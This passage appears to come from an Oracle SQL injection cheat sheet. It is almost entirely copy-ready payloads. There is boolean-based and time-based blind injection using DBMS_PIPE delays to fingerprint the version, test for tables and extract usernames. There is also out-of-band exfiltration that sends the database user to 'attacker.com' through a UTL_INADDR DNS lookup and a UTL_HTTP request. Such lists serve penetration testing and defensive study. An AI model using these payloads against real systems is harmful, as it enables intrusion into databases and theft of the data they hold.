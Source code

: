 - **Extracting Data from a Column:** Evaluates to true if the first character of the first username in the `USERS` table is 'a'.

```
' AND (SELECT SUBSTR(USERNAME, 1, 1) FROM USERS WHERE ROWNUM = 1) = 'a' -- -
```

### Time-Based SQLi 

- **Basic Time Delay Test:** Causes the Oracle database to wait for 5 seconds. If the response is delayed, the injection point is likely vulnerable.

```
' AND 1=DBMS_PIPE.RECEIVE_MESSAGE('a', 5) -- -
```

- **Conditional Time Delay:** Causes a 5-second delay if the condition `1=1` is true.

```
' AND CASE WHEN (1=1) THEN DBMS_PIPE.RECEIVE_MESSAGE('a', 5) ELSE NULL END -- -
```

- **Checking Oracle Version:** Causes a 5-second delay if the Oracle version starts with '1'.

```
' AND CASE WHEN (SUBSTR(BANNER, 1, 1) = '1') THEN DBMS_PIPE.RECEIVE_MESSAGE('a', 5) ELSE NULL END FROM v$version WHERE ROWNUM = 1 -- -
```

- **Checking Existence of a Table:** Causes a 5-second delay if the `USERS` table exists.

```
' AND CASE WHEN (EXISTS (SELECT 1 FROM all_tables WHERE table_name = 'USERS')) THEN DBMS_PIPE.RECEIVE_MESSAGE('a', 5) ELSE NULL END -- -
```

- **Extracting Data from a Column:** Causes a 5-second delay if the first character of the first username in the `USERS` table is 'a'.

```
' AND CASE WHEN (SUBSTR((SELECT USERNAME FROM USERS WHERE ROWNUM = 1), 1, 1)='a') THEN DBMS_PIPE.RECEIVE_MESSAGE('a', 5) ELSE NULL END -- -
```

### Out-of-Band SQLi

- **DNS Exfiltration Using UTL_INADDR:** Causes Oracle to perform a DNS lookup, appending the database username to the attacker's domain, thus exfiltrating the username via DNS.

```
' AND (SELECT UTL_INADDR.get_host_name((SELECT user FROM dual || '.attacker.com')) FROM dual) IS NOT NULL -- -
```

- **HTTP Exfiltration Using UTL_HTTP:** Sends an HTTP request containing the current Oracle database user to an attacker-controlled server.

```
' AND (SELECT UTL_HTTP.request('http://attacker.com/?user=' || user) FROM dual) IS NOT NULL -- -
```
